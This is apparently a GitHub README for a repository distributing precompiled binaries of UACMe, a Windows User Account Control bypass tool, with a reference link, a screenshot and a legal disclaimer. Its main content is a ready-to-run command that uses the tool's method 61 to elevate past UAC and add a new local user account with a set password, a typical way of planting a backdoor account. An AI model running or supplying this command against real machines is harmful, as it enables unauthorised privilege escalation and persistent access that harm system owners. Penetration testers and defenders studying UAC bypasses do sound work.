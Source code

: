 # UACME-bin
Compiled UACMe, a tool for bypassing Windows UAC.

Reference:
- https://github.com/hfiref0x/UACME

Command example:
```powershell
Akagi64.exe 61 "net user asuka asuk@1337 /add"
```

![Akagi Add User](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhw_-d4vLRrPx3Xj4loU240qW6gvsxJV8L808DiN6bA3qdYR3VcYCjgsAZeapMRoEOjBO8XnbTJb_ZvuUhacESa9uGTzMuDMknMTGHrCEciomluD-eBAjVaPwmd-AwSeFLfRRCey4Uqjyni5KBarmLR1BWxBrXGPq1z0ws3cwLocv16W2BwVv02lILedGnh/s850/uac-bypass.png)
## Disclaimer

Any actions and or activities related to the material contained within this tool is solely your responsibility.The misuse of the information in this tool can result in criminal charges brought against the persons in question.

